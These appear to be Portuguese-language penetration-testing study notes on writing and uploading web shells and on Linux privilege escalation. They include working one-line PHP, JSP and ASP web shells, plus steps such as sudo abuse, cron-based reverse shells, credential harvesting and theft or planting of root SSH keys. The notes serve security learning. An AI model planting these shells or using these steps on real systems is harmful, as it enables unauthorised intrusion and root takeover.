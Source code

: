    Geralmente é um web script em PHP ou ASPX, que aceita requisições GET ou POST. executa nosso comando e printa na tela ou na página web.
   (Writing a Web Shell):
   Geralmente o script é pequeno e podemos memoriza-los:
   > PHP:
   <?php system($_REQUEST["cmd"]); ?>
   > jsp
   <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
   > asp
   <% eval request("cmd") %>
   (Uploading a Web Shell):
   Depois que criar o web shell, é necessário fazer o upload desse arquivo no banco de dados e executar ele para que possamos ter acesso.
   _Depois que colocar o arquivo na pasta padrão de execução do servidor, podemos utilizar a url do navegador para 
   enviar comandos de dentro do terminal e ele retorna para nós os dados.
   É um tipo de shell muito bom, pois não precisamos ter que abrir uma porta no alvo pois o serviço já está executando,
   caso o servidor seja reinicializado, o arquivo ainda estará lá, então é só acessar novamente e pronto.

### Privilege Escalation
  Geralmente quando a gente consegue um shell, ele não tem tantos privilégios como um root, então a gente precisa explorar internamente
  para conseguir alguma brecha e conseguir o usuário root.
  1. PrivEsc Checklists
   Tem alguns sites que oferecem forma de verificar se temos acesso a algumas funcionalidades para podermos tentar conseguir um acesso maior.
  2. Enumeration Scripts
   Existe alguns scripts que enumeram o que determinados usuários podem acessar.
  3. Kernel Exploits
   É possível ter acesso diretamente a um shell como root, quando o Kernel ou o S.O é antigo, pois assim conseguimos explorar o S.O, mas deve-se ter cuidado ao fazer isso
   pois o computador pode ficar instável ao tentar explorar o Kernel.
  4. Vulnerable SOftware
   Podemos verificar os arquivos que estão instalados no pc e procurar exploits para tais para tentar conseguir escalar os privilégios através disso.
  5. User Privileges
   As vezes os usuários que a gente consegue o shell pode executar alguns comandos ao utilizar o sudo, para verificar quais comandos a gente pode executar basta digitar
   $ sudo -l
   Se o resultado for ALL, então podemos trocar de usuário para o root facilmente.
   $ sudo su -
  6. Scheduled Tasks
   Se nós tivermos acesso a escrever schedule tasks, então podemos escrever um script bash para nos dar um shell reverso.
  7. Exposed Credentials
   Podemos encontrar senhas em arquivos de configurações, logs, históricos de bash e com isso ter acesso a senha de outros usuários e tentar realizar mais uma escalação de privilégios.
  8. SSH Keys
   Se nós pudermos ler os arquivos da pasta /root/.ssh/, então podemos copiar o arquivo id_rsa, executar uma conexão ssh passando como chave o id_rsa que temos em nossa máquina, então
   conseguimos um acesso diretamente ao shell como root.
   Outra forma seria criar uma chhave ssh nova, copiar a chave pública e colocar no root da máquina alvo, na parte de authorized_keys e depois só realizar uma chamada ssh, assim 
   conseguimos um shell lindo.
